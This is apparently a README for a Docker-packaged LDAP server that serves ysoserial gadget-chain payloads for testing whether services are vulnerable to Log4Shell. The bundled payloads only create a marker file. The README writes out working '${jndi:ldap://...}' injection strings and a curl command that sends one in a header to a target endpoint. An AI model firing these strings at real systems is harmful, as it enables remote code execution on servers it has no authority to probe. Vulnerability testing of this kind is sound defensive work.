 ## Description

A simple java LDAP host that will respond with a benign jdk11+ exploitable gadget chain payload. Useful for generating exploit logs, and testing if your services are vulnerable to a set of well-known follow-up gadget chains that are needed to exploit this vulnerability on newer jdk versions.

### Payloads

The pre-packaged exploit payloads simply run `touch /<payload name>.txt`, e.g. `touch /CommonsCollections6.txt` on the target. They were generated with [ysoserial](https://github.com/frohoff/ysoserial).

## Build
docker-compose build

## Run
docker-compose up

## Usage

1. Pick a payload from the list of gadget chains available in [ysoserial](https://github.com/frohoff/ysoserial).
2. Build your exploit string with your ldap host's IP and the name of the ysoserial payload you wish to use, if any
   * `${jndi:ldap://<host.ip.address>:1337/[gadget chain payload>]`
   * `${jndi:ldap://192.168.1.5:1337/CommonsCollections6}`
3. Use any of the many mechanisms at your disposal to attempt to trigger the log4shell exploit with that string. log4dap will display an error, but the fact you know the target attempted to load a class tells you you're vulnerable.

#### Example
`curl  -H '<some-header or other property you're testing> : ${jndi:ldap://<host.ip.address>:1337/<gadget chain payload>}' http://target.hostname/some/endpoint`
